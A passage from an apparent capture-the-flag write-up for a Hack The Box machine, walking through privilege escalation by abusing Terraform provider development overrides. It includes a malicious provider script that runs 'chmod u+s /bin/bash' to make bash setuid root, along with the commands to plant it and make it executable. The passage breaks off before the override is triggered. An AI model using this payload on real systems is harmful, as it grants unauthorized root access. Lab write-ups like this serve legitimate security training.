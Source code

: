 ```php
terraform {
  required_providers {
    examples = {
      source = "previous.htb/terraform/examples"
      version = "0.1"
    }
  }
}

provider "examples" {}

resource "examples_file" "test" {
  path = "/tmp/test"
  content = "Hello, World!"
}
```

### Terraform Provider Override Exploitation

#### Understanding the Attack Vector

Terraform allows development overrides for providers, enabling local provider binaries to be used instead of official ones. This can be exploited when:

1. We can control the Terraform configuration directory
    
2. We can set environment variables
    
3. We have execution privileges
    

#### Creating Malicious Provider

**Step 1: Create the malicious provider binary**

```bash
mkdir -p /home/jeremy/privesc/
nano /home/jeremy/privesc/terraform-provider-examples_v0.1_linux_amd64
```

**Malicious provider content:**

```bash
#!/bin/bash
chmod u+s /bin/bash
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756995419507/0e8d6037-98b8-4f7e-9546-cdc55ca94b21.png align="center")

*Image 7: Creating the malicious Terraform provider binary*

**Step 2: Make the provider executable**

```bash
chmod +x /home/jeremy/privesc/terraform-provider-examples_v0.1_linux_amd64
```
